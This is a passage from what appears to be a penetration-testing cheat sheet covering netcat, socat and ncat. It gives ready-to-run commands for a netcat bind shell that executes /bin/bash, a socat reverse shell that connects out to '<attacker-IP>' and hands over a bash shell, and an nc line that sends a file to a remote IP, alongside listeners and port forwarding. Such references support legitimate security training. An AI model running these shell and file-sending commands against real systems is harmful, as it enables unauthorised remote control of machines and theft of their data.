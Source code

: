 **Sender**:
```bash
nc <IP> 4444 < file.txt
```

### Bind Shell
**Target**:
```bash
nc -lvnp 4444 -e /bin/bash
```

**Attacker**:
```bash
nc <target-IP> 4444
```

---

## Socat
Advanced Netcat alternative with more features.

### Basic Listener
```bash
socat TCP-LISTEN:4444 STDOUT
```

### Encrypted Listener (SSL)
```bash
socat OPENSSL-LISTEN:4444,cert=server.pem,verify=0 STDOUT
```

### Reverse Shell
**Target**:
```bash
socat TCP:<attacker-IP>:4444 EXEC:/bin/bash
```

**Attacker**:
```bash
socat TCP-LISTEN:4444 FILE:`tty`,raw,echo=0
```

### Port Forwarding
```bash
socat TCP-LISTEN:80,fork TCP:192.168.1.100:8080
```

---

## Ncat
Nmap's improved Netcat implementation.

### Persistent Listener
```bash
ncat -lvkp 4444 --keep-open
```

